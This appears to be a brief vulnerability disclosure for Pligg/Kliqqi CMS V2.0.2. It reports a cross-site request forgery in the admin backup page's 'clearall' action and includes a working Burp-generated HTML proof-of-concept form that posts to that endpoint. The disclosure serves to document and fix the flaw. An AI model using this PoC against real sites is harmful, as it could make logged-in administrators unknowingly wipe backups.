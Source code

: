
target:https://github.com/Kliqqi-CMS/Kliqqi-CMS
version: V2.0.2

Pligg CMS V2.0.2 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/admin_backup.php?dobackup=clearall

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/admin_backup.php?dobackup=clearall" method="POST">
      <input type="hidden" name="dobackup" value="clearall" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

